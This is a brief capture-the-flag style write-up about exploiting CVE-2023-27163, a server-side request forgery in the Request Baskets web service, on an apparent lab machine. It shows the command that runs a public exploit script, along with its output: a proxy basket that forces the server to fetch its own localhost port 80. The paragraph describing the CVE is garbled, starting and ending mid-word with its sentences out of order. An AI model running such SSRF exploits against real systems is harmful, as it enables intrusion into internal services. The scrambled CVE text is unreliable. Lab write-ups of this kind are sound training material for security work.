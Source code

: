 <div><p align="center"><img src="img/website.png"></div>

As you can see from the image, the name and version of this service are present.

<div><p align="center"><img src="img/version.png"></div>

I searched on the internet and discovered that [Request Baskets](https://github.com/darklynx/request-baskets) is a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI. It is strongly inspired by ideas and application design of the RequestHub project and reproduces functionality offered by RequestBin service.

### CVE-2023-27163 

n via a crafted API request. In short, this vulnerability allows you to redirect requests directed to the server to another port or even another IP.> In particular, [request-baskets up to v1.2.1](https://cve.circl.lu/cve/CVE-2023-27163) was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. This vulnerability allows attackers to access network resources and sensitive informatio

By exploiting this vulnerability I could reach the filtered services on ports 80 and 8338, to do this I found a public exploit on [github](https://github.com/entr0pie/CVE-2023-27163). I downloaded the exploit and ran it on my attacking machine.


```
$ ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/  
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "rjxsgj" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/rjxsgj now makes the server request to http://127.0.0.1:80/.
> Authorization: 5a2ovn0HdKO6dRMDPwELYCMB_97paH5m40ptrvoMXAXd   
```
